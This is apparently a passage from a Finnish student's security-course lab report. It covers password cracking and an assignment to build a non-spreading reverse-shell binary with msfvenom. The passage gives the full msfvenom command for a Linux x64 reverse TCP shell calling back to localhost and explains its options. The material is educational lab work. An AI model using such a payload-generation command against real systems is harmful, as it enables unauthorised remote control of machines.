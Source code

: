 Melko nappiin osuin aika arviolla, mutta salasana löytyi.

[(Wikipedia)](https://en.wikipedia.org/wiki/Yescrypt)

---

## g) Tee msfvenom-työkalulla haittaohjelma, joka soittaa kotiin (reverse shell). Ota yhteys vastaan metasploitin multi/handler -työkalulla

## - Haittaohjelma ei saa olla automaattisesti leviävä. Msfvenom tekee tyypillisillä asetuksilla ohjelman, joka avaa reverse shellin, kun sen ajaa, mutta joka ei leviä eikä tee muutenkaan mitään itsestään

## - Raporttiin riittävät pelkät komennot ja raportti haitakkeen tekemisestä, itse binääriä ei ole pakko laittaa verkkoon. Mikäli laitat binäärin verkkoon, pakkaa se salakirjoitettuun zip-pakettiin ja laita salasanaksi "infected". Latauslinkin yhteydessä on oltava selkeä varoitus siitä, että kyseessä on haittaohjelma (malware), jota ei tule ajaa tuotantokoneilla. Salasanan voit halutessasi kertoa varoitusten yhteydessä

## - Palvelimen päässä pitää olla reikä tulimuurissa. Reverse shell tarkoittaa, että palvelin on hyökkäyskoneella

Ensiummäiseksi lähdin lukemaan msfvenom man sivuja ja help sivuja. Melko nopeasti selvisi, miten ohjelma toimii. Käytin tässä vaiheessa apuna myös ChatGPT:tä selittämään asioita mulle.

Noh lähdin kuitnekin tekemään malwarea msfvenomissa komennolla: `msfvenom -p linux/x64/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f elf > malware.elf`. Tässä `-p` tarkentaa payloadin mikä on tällä hetkellä linux reverce_tcp shell. Sitten sinne määritettiin normaalisti LHOST ja LPORT ja lopuksi `-f` mikä kertoo tiedoston formaatin.

![alt text](assets/TT25/TT25-005/image8.png)
